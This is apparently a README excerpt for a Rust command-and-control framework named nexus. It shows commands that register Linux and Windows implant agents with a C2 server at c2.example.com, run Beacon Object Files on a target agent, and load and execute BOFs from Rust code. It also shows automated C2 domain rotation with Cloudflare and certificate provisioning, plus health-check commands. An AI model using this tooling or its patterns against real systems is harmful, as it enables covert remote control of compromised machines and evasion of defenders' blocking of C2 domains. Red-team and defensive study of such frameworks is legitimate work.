 ## 🎯 Advanced Usage

### **gRPC Communication**

```bash
# Register Linux agent with gRPC server
./target/release/nexus-agent-linux --grpc-endpoint https://c2.example.com:443

# Register Windows agent (on Windows system)
.\target\x86_64-pc-windows-gnu\release\nexus-agent-windows.exe --grpc-endpoint https://c2.example.com:443

# Execute BOF with arguments
nexus-cli bof-execute agent-123 "whoami.obj" "go"

# Domain rotation
nexus-cli domain rotate --immediate
```

### **BOF Development & Execution**

```rust
use nexus_infra::{BOFLoader, BofArgument};

let loader = BOFLoader::new();
let bof_data = std::fs::read("custom.obj")?;
let loaded_bof = loader.load_bof(&bof_data)?;

let args = vec![
    BofArgument::string("target_system"),
    BofArgument::int32(1234),
];

let result = loader.execute_bof(&loaded_bof, "go", &args)?;
```

### **Dynamic Infrastructure**

```rust
use nexus_infra::{CloudflareManager, DomainManager};

// Create new C2 subdomain
let domain = domain_manager.create_new_domain().await?;
println!("New C2 endpoint: {}", domain.full_domain);

// Automatic certificate provisioning
let cert = cert_manager.request_certificate(&domain.full_domain, &[]).await?;
```

## 📊 Monitoring & Operations

### Health Monitoring
```bash
# Check infrastructure health
nexus-cli status --all

# Domain health check
nexus-cli domains health

# Certificate status
nexus-cli certificates status
```
